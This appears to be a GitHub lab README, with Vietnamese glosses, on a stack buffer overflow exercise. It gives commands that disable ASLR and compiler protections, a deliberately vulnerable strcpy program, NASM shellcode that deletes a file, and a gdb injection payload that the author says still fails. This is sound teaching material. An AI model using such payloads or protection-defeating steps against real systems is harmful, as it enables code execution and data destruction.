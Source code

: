## vuln(inject shell code file_del)
### Prepare for the lab environment:
1. Turn off OS's address space layout randomization (`sudo sysctl -w kernel.randomize_va_space=0`)<br>
(Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên khi load chương trình của HĐH)<br>
2. Compile program with options to defeat stack protecting mechanism and code execution on stack:<br>
(Biên dịch chương trình c với các option tắt cơ chế bảo vệ stack và cho phép thực thi code trên stack)<br>
`$> gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`<br>
3. Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04:<br>
`$> sudo ln -sf /bin/zsh /bin/sh`<br>

Source code: <br>
```
#include<stdio.h>
#include<string.h>
int main(int argc, char* argv[])
{
    char buf[64];
    if (argc==1)
        printf("missing argument\n");
    else
        strcpy(buf,argv[1]);
    //printf("buf: 0x%x\n",(unsigned int)buf);
    return 0;
}
```
<br>

**vuln.c**
```
; delete dummyfile in nasm

section .text
global _start
_start:
    jmp short ender
starter:
    mov eax,10
    mov ebx,_filename
    int 0x80
_exit:
    mov eax,1
    int 0x80

ender:
    call starter
_filename:
    db 'dummyfile',0
```
**file_del.asm**

<br>

Stack Frame

<br>

![](./imgs/stack_file_del.png)

<br>

Complie by gcc:
`gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`

<br>
Run file_del: <br>

`nasm -g -f elf file_del.asm` <br>
`ld -m elf_i386 -o file_del file_del.o`

<br>

![compile vuln](./imgs/file_del1.png)

<br>

Run this command to get shellcode from `file_del`:

<br>

`for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`

<br>

![shellcode](./imgs/file_del2.png)

<br>

Use `gdb` to run program:

<br>

`gdb vuln.out -q`

<br>

![gdb](./imgs/file_del3.png)

<br>

break at 2 points: <br>
`0x08048441` <br>
`0x0804846b` <br>
<br> Run program: <br>
`gdb-pead$ r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00' + 'a'*32 + '\xff\xff\xff\xff')")` <br>

![](./imgs/file_del4.png)

<br> Continue: `gdb-peda$ c` <br>

![](./imgs/file_del5.png)

<br> `x/80xb $esp` to check stack <br>

We got some problem in shellcode. It's wrong when running program.
